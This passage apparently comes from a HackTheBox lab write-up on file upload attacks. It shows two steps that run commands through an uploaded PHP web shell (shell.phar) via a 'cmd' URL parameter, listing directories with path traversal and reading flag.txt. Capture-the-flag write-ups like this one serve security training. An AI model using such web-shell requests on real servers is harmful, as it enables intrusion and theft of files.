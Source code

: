 ![image-center](\assets\images\HTB_File_Upload_Attacks\Q4\9.png)

<div style="text-align: justify">10. Execute the "ls" command as a URL parameter. The file "flag.txt" is discovered.</div>
```
http://IP:PORT/profile_images/shell.phar?cmd=ls ../../../../
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q4\10.png)

<div style="text-align: justify">11. Read the content of "flag.txt" with the "cat" command as the URL parameter.</div>
```
http://IP:PORT/profile_images/shell.phar?cmd=cat ../../../../flag.txt
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q4\11.png)
